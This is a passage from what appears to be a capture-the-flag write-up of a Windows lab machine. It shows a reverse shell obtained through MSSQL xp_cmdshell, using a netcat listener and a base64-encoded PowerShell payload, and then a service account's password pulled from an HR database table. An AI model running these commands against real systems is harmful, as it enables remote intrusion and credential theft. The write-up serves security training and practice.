 -   **As we have remote code execution we can trigger a reverse shell on the host**:
    -   I create a revere shell with <https://revshells.com>



-   **I start my listener**:
    -   `nc -nvlp 443`

-   **I use** `xp_cmdshell` **to execute my shell**:
    -   `xp_cmdshell powershell -e <base64EncodedString>`
    -   {{< figure src="/ox-hugo/2024-10-07-181152_.png" >}}

-   **Shell Caught**:
    -   {{< figure src="/ox-hugo/2024-10-07-181349_.png" >}}

-   **Enumeration dead-end**:
    -   I do some further enumeration however it is a dead-end&#x2026;as far as I can see.


### Enumerating the Database &amp; Finding Creds for `MiscSvc`: {#enumerating-the-database-and-finding-creds-for-miscsvc}

-   As was mentioned in the PDF we read earlier, the previous attackers were able to compromise the domain after gaining access to the HR database.

-   **I enumerate the databases**:
    -   `enum db`
    -   {{< figure src="/ox-hugo/2024-10-07-130950_.png" >}}
    -   We can see the HR db is listed.

-   **I select the database**:
    -   `use ScrambleHR`

-   **I list it's tables &amp; find an interesting table called**: `UserImport`:
    -   `select * from ScrambleHR.INFORMATION_SCHEMA.TABLES`
    -   {{< figure src="/ox-hugo/2024-10-07-131223_.png" >}}

-   **I list the contents of it to find the** `LdapPwd` **of the** `MiscSvc` **account**:
    -   `select * from UserImport`
    -   {{< figure src="/ox-hugo/2024-10-07-131638_.png" >}}

-   **I list the contents of the other shares but they are empty**:
    -   {{< figure src="/ox-hugo/2024-10-07-131922_.png" >}}


## 4. Lateral Movement: {#4-dot-lateral-movement}


### Getting a shell as `MiscSvc`: {#getting-a-shell-as-miscsvc}

As I have credentials it dawned on me I can most likely invoke a `ps-session` using the creds of `MiscSvc` once I have an established session&#x2026;..right?


#### And here's what didnt' work: {#and-here-s-what-didnt-work}
